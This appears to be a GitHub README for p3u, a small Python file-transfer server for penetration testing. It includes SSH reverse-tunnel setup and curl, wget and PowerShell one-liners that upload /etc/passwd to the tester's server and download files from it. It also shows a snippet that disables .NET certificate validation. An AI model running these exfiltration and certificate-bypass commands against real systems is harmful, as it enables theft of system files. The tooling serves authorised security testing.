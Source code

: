 # p3u - Python 3 Uploader

# Purpose
I needed a flexible and simple file upload and download tool with SSL support for local use at customer site during penetration tests.
So I stumbled over the gist files already implementing it and modified them for my needs.

Feel free to contribute with PRs.

# Script Usage
Generate your cert with \
`p3u.py -g`

Use the following arguments: \
`p3u.py -l ip -p port -a user:password -c server.pem`

Use remote Box for reverse proxy and ssl offloading:
1. Configure your server with Let's Encrypt and nginx
2. Add to the nginx.conf
```
location / {
        proxy_pass http://127.0.0.1:5555/;
}
```
3. Connect to the server via SSH to establish the tunnel:
```
ssh -nNT -4 -R 5555:localhost:80 user@server -v
```
4. Run p3u.py

This will handle and offload SSL connections on the server with certbot or similar without the need to run the challenge locally.

# Data transfer examples

# Download and Upload from Browser
## Browser
```
Click, Click, Done
```

# Downloading from Linux

## wget
```shell
wget https://127.0.0.1:8888/file [--no-check-certificate] [--http-user user --http-password password]
```

## curl
```shell
curl https://127.0.0.1:8888/file -O [--insecure] [--user user:password]
```

# Uploading from Linux
## curl
```shell
curl -F 'file=@/etc/passwd' [https://]127.0.0.1:8888 [--user user:password] [--insecure]
```

## wget
(This one was fun to build)
```shell
filename=/etc/passwd && echo -e "----FILEUPLOAD\r\nContent-Disposition: form-data; name=\"file\"; filename=\"$filename\"\r\n" > /tmp/xyz-upload && cat $filename >> /tmp/xyz-upload && echo -e '\r\n----FILEUPLOAD--\r\n' >> /tmp/xyz-upload && wget --header="Content-type: multipart/form-data; boundary=--FILEUPLOAD" --post-file /tmp/xyz-upload [https://]127.0.0.1:8888 -qO- [--http-user user --http-password password] [--no-check-certificate] && rm /tmp/xyz-upload
```

# Downloading from Windows

## Powershell without authentication w/ .Net
```powershell
$url="http[s]://127.0.0.1:8888/file"; (New-Object System.Net.WebClient).DownloadFile($url,$url.Substring($url.LastIndexOf("/") + 1))
```

## Powershell without authentication w/o .Net
-SkipCertificateCheck is quite new: https://github.com/PowerShell/PowerShell/pull/2006
```powershell
$url="https://127.0.0.1:8888/passwd"; Invoke-WebRequest $url -OutFile $url.Substring($url.LastIndexOf("/") + 1) [-SkipCertificateCheck]
```

## Handling invalid certificates in .Net
```powershell
Add-Type -Language CSharp "namespace System.Net {public static class Util {public static void Init() {ServicePointManager.ServerCertificateValidationCallback = null;ServicePointManager.ServerCertificateValidationCallback += (sender, cert, chain, errs) => true;}}}"; [System.Net.Util]::Init();
<insert one of the powershell .Net payloads here>
```

# Uploading stuff from Windows

## Powershell without authentication w/ .Net
```powershell
(New-Object Net.WebClient).UploadFile("http[s]://127.0.0.1:8888","/etc/passwd")
```

## Powershell with authentication w/ .Net
```powershell
$wc = New-Object System.Net.WebClient; $wc.Credentials = new-object System.Net.NetworkCredential("user","password"); $resp = $wc.UploadFile("http[s]://127.0.0.1:8888","/etc/passwd")
```

# Handling invalid certificates in .Net
```powershell
Add-Type -Language CSharp "namespace System.Net {public static class Util {public static void Init() {ServicePointManager.ServerCertificateValidationCallback = null;ServicePointManager.ServerCertificateValidationCallback += (sender, cert, chain, errs) => true;}}}"; [System.Net.Util]::Init();
<insert one of the powershell payloads here>
```

## Credits
UniIsland & 4d4c for their initial work
